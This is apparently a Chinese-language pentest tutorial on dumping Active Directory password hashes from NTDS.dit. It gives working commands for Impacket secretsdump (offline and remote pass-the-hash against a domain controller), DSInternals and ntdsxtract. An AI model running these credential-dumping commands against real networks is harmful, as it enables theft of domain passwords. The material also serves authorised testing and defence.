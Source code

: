 Impacket 是一组 python 脚本，可用于执行各种任务，包括提取 NTDS 文件的内容。impacket-secretsdump 模块需要我们提供 SYSTEM 和 NTDS 数据库文件。

```bash
./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL

# system：表示系统 hive 文件的路径（SYSTEM）
# ntds：表示 dit 文件的路径（ntds.dit）
```

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```bash
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```powershell
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/)
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```bash
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install -y autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```

利用该工具从 ntds.dit 文件中转储表格
```bash
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```bash
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```
